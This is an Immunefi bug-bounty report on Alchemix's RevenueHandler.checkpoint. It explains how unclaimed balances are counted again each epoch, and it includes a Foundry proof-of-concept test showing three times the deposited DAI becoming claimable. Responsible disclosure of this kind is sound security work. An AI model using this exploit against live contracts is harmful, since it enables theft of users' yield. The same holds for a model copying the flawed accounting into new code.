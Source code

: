 
# `RevenueHandler.checkpoint` isn't correctly

Submitted on Wed May 15 2024 14:16:14 GMT-0400 (Atlantic Standard Time) by @jasonxiale for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31253

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RewardsDistributor.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro
`RevenueHandler.checkpoint` isn't correctly when `tokenConfig.poolAdapter` is __0__, which cause `epochRevenues` record wrong number, so some users will claim more token than expected, and other user can't claim the tokens

## Vulnerability Details
`RevenueHandler.checkpoint` isn't correctly when `tokenConfig.poolAdapter` is __0__, which cause `epochRevenues` record wrong number, so some users will claim more token than expected, and other user can't claim the tokens
## Vulnerability Details
In [RevenueHandler.checkpoint](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/RevenueHandler.sol#L228-L268), if `tokenConfig.poolAdapter` is zero, `epochRevenues[currentEpoch][token] += amountReceived;` is used to update value, and `thisBalance` is equal to `IERC20(token).balanceOf(address(this))`
__The issue is that `IERC20(token).balanceOf(address(this))` may contains the token that hasn't been claimed. In such case, it means that the amount will be added twice.__

```solidity
228     function checkpoint() public {
229         // only run checkpoint() once per epoch
230         if (block.timestamp >= currentEpoch + WEEK /* && initializer == address(0) */) {
231             currentEpoch = (block.timestamp / WEEK) * WEEK;
232 
233             uint256 length = revenueTokens.length;
234             for (uint256 i = 0; i < length; i++) {
	...
244 
245                 uint256 thisBalance = IERC20(token).balanceOf(address(this));
246 
247                 // If poolAdapter is set, the revenue token is an alchemic-token
248                 if (tokenConfig.poolAdapter != address(0)) {
	...
258                 } else {
259                     // If the revenue token doesn't have a poolAdapter, it is not an alchemic-token
260                     amountReceived = thisBalance;  <<<--- thisBalance is IERC20(token).balanceOf(address(this));

261 
262                     // Update amount of non-alchemic-token revenue received for this epoch
263                     epochRevenues[currentEpoch][token] += amountReceived; <<<--- += is used here
264                 }
265 
266                 emit RevenueRealized(currentEpoch, token, tokenConfig.debtToken, amountReceived, treasuryAmt);
267             }
268         }
269     }
```


## Impact Details
`epochRevenues` isn't updated correctly in some case, so some users will claim more token than expected, and other user can't claim the tokens

## References
Add any relevant links to documentation or code

        
## Proof of concept
## Proof of Concept
Put the following code in `src/test/RevenueHandler.t.sol` and run
```bash
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/0TbY2mhyGA4gLPShfh-PwBlQ3PDNUdL1 --fork-block-number 17133822 --mc RevenueHandlerTest --mt testTwoCheckpoint -vv
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for src/test/RevenueHandler.t.sol:RevenueHandlerTest
[PASS] testTwoCheckpoint() (gas: 2223762)
Logs:
  currentEpoch                    : 1686182400
  revenueHandler.epochRevenues    : 1000000000000000000000
  dai.balanceOf(revenueHandler)   : 1000000000000000000000
  revenueHandler.claimable        : 1000000000000000000000
  currentEpoch                    : 1687392000
  revenueHandler.epochRevenues    : 1000000000000000000000
  dai.balanceOf(revenueHandler)   : 1000000000000000000000
  revenueHandler.claimable        : 2000000000000000000000
  currentEpoch                    : 1688601600
  revenueHandler.epochRevenues    : 1000000000000000000000
  dai.balanceOf(revenueHandler)   : 1000000000000000000000
  revenueHandler.claimable        : 3000000000000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 6.07ms (2.69ms CPU time)

Ran 1 test suite in 1.22s (6.07ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

As we can see from the test, only `1000e18` DAI is transferred to `revenueHandler`, but the `tokenId` can claim 3000e18 DAI

```solidity
    function testTwoCheckpoint() external {
        uint256 currentEpoch;
        uint256 WEEK = 2 weeks;
        revenueHandler.setPoolAdapter(dai, address(0));

        uint tokenId = _initializeVeALCXPosition(10e18);

        _jumpOneEpoch();
        _jumpOneEpoch();
        _jumpOneEpoch();

        uint256 revAmt = 1000e18;
        _accrueRevenue(dai, revAmt);
        revenueHandler.checkpoint();
        currentEpoch = (block.timestamp / WEEK) * WEEK;

        console2.log("currentEpoch                    :", currentEpoch);
        console2.log("revenueHandler.epochRevenues    :", revenueHandler.epochRevenues(currentEpoch, dai));
        console2.log("dai.balanceOf(revenueHandler)   :", IERC20(dai).balanceOf(address(revenueHandler)));
        console2.log("revenueHandler.claimable        :", revenueHandler.claimable(tokenId, dai));

        _jumpOneEpoch();
        revenueHandler.checkpoint();
        currentEpoch = (block.timestamp / WEEK) * WEEK;
        console2.log("currentEpoch                    :", currentEpoch);
        console2.log("revenueHandler.epochRevenues    :", revenueHandler.epochRevenues(currentEpoch, dai));
        console2.log("dai.balanceOf(revenueHandler)   :", IERC20(dai).balanceOf(address(revenueHandler)));
        console2.log("revenueHandler.claimable        :", revenueHandler.claimable(tokenId, dai));

        _jumpOneEpoch();
        revenueHandler.checkpoint();
        currentEpoch = (block.timestamp / WEEK) * WEEK;
        console2.log("currentEpoch                    :", currentEpoch);
        console2.log("revenueHandler.epochRevenues    :", revenueHandler.epochRevenues(currentEpoch, dai));
        console2.log("dai.balanceOf(revenueHandler)   :", IERC20(dai).balanceOf(address(revenueHandler)));
        console2.log("revenueHandler.claimable        :", revenueHandler.claimable(tokenId, dai));
    }
```